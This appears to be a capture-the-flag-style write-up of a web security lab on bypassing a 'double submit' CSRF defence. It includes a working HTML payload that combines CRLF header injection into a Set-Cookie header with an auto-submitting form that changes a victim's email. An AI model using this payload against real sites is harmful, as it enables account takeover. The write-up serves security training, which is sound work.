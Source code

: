 # CSRF where token is duplicated in cookie
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis
This website uses duplicated `csrf` token which is duplicated as cookie value.

|![](Images/image-17.png)|
|:--:| 
| *Test of change email functionality* |

Moreover, latest search is stored as cookie value in user browser - search term is reflected in the Set-Cookie header.

|![](Images/image-22.png)|
|:--:| 
| *Cookie - Latest search term* |
|![](Images/image-23.png)|
| *Set-Cookie - Latest search term* |
|![](Images/image-21.png)|
| *Cookie - Latest search term* |


## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
  - Create a URL to inject your `csrf` cookie into the victim's browser
  - Craft POST request to `/my-account/change-email` with valid `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

URL encoded characters `%0d%0a` are `\r\n` (carriage return and line feed). They are used to seperate headers in HTTP/1.1 requests.

```html
<form method="POST" action="https://0a94007c04d795cc81ea2f0100720054.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="dXzgLm0ug5r3yitGeoXZtsLlIfhGFh5W">
</form>

<img src="https://0a94007c04d795cc81ea2f0100720054.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=dXzgLm0ug5r3yitGeoXZtsLlIfhGFh5W%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

|![](Images/image-19.png)|
|:--:| 
| *Test of csrf cookie injection - View exploit option* |
|![](Images/image-20.png)|
| *URL decoded payload* |
|![](Images/image-18.png)|
| *Final payload* |
